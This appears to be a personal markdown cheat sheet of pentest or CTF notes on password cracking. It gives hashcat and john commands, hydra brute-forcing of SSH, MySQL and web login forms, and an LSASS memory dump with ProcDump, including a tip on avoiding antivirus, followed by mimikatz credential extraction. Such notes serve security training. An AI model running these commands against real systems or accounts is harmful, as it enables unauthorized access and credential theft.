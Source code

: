 # Password Cracking
- https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force
- Anatomy of shadow file: https://www.cyberciti.biz/faq/understanding-etcshadow-file/
- Always start your password search with rockyou.
  - In ctf style challenges start with first 100 or 1000 entries.
- MD5 rainbow table md5 site
  https://www.md5online.org/md5-decrypt.html

## Hashes

- Basic dictionary attack

	  hashcat -a 0 -m <hash_type> --force <hash_file> /usr/share/worldist/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
  
- Brute force
  
	  hashcat -m <hash_type> -a 3 <hash_file> [<mask>]
  
  
## Zip Files

- Extract and crack single hash

	  zip2john anna.zip > file.hash
	  john file.hash -w /usr/share/wordlists/rockyou.txt >> pass.txt

- Extract and crack multiple hashes

	  for file in $(ls); do zip2john $file > $file.hash; done
	  for file in $(ls *.hash); do john $file -w /usr/share/wordlists/rockyou.txt >> pass.txt ; done

## Remote Logins

- MySQL

	  hydra -L <USERNAMES> -P <WORDLIST> <IP> mysql

- SSH

	  hydra -l <USERNAMES> -P <FULL_PATH_TO_PASS> <IP> -t 4 ssh
  
- Web Forms

	  hydra -l <USERNAMES> -P <WORDLIST> <IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
	  
- fuff

	  ffuf -request <REQUEST> -request-proto http -mode clusterbomb -w <WORDLIST>:FUZZ -fs 102



## Generating Wordlists

- **cewl**
  
  -crawl a website and extract words
  
- **crunch**

  -create bespoke wordlist from specified parameters
  
- **cupp**

	generate password lists based on user information     
    
## lsass dump

[Guide](https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php)

- ### 1. Dump with ProcDump

  Dump the LSASS process from memory to disk using Sysinternals ProcDump. Since ProcDump is a signed Microsoft utility, AV usually doesn’t trigger on it.  ProcDump creates a minidump of the target process from which Mimikatz can extract credentials.
  
  [ProcDump download](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
      
  - Local Usage:
  
 		procdump.exe -accepteula -ma lsass.exe lsass.dmp
    
  - Remote Usage: (if you do not want to / cannot put the sysinternals tools on disk)
 
		net use Z: https://live.sysinternals.com
		procdump.exe -accepteula -ma lsass.exe lsass.dmp
    
- ### 2. extract credentials with mimikatz
  
  [mimikatz download](http://blog.gentilkiwi.com/mimikatz)
  
  - Dump Credentials
	  
		mimikatz # sekurlsa::minidump lsass.dmp
  
  - Switch to minidump
 
		mimikatz # sekurlsa::logonPasswords